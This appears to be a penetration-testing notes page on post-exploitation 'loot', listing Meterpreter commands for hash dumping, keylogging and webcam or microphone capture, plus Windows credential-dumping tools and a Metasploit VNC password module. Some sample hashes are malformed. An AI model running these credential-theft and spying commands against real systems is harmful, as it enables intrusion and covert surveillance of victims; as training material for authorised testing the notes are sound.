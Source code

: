 # Loot


## Meterpreter

If you have a meterpreter shell you are able to do a lot of thing with very little effort.
If you do not have a meterpreter-shell you can always create a exploit with msfvenom. An elf or exe or other format to upgrade your shell.




Show help of all commands:
```
-h
```

Dump windows hashes for further analysis
```
hashdump
```

Keylogger
```
keysscan_start
keyscan_dump
keyscan_stop
```

Webcam commands
```
record_mic     Record audio from the default microphone for X seconds
webcam_chat    Start a video chat
webcam_list    List webcams
webcam_snap    Take a snapshot from the specified webcam
webcam_stream  Play a video stream from the specified webcam
```


## Dumping password on windows

This most likely requires administrative rights, that's why the chapter is found here and not in priv-esc. Once you have a hash you can move on tto the Password Cracking-chapter where we discuss different techniques of cracking hashes.

Windows stores passwords in SAM - Security Account Manager. Passwords are stored differently depending on the operating system. Up until (and including) Windows 2003 stored the passwords in LAN Manager (LM) and NT LAN Manager (NTLM). LM is incredibly insecure.From windows vista and on the system does not use LM, only NTLM. So it is a bit more secure.

**LM and NTLM >= Windows 2003**

**NTLM > Windows vista**

### LM Hashes

LM hashes can be reaully easy to crack. The LM part in the example below is the first part.

```
Administrator:500:FA21A6D3CF(01B8BAAD3B435B51404EE:C294D192B82B6AA35C3DFCA81F1F59BC:::
```

Example of NT
```
Administrator:500:NO PASSWORD*********************:BE134K40129560B46534340292AF4E72:::
```

### fgdump.exe

We can use fgdump.exe (locate fgdump.exe on kali) to extract NTLM and LM Password hashes. Run it and there is a file called 127.0.0.1.pwndump where the hash is saved. Now you can try to brute force it. 


### Windows Credencial Editor (WCE)

WCE can steal NTLM passwords from memory in cleartext!
There are different versions of WCE, one for 32 bit systems and one for 64 bit. So make sure you have the right one.

You can run it like this
```
wce32.exe -w
```

### Pwdump 7

http://www.tarasco.org/security/pwdump_7/

## VNC

VNC require a specific password to log in to. So it is not the same password as the user password. If you have a meterpreter shell you can run the post exploit module to get the VNC password.

```
background
use post/windows/gather/credentials/vnc
set session X
exploit
```
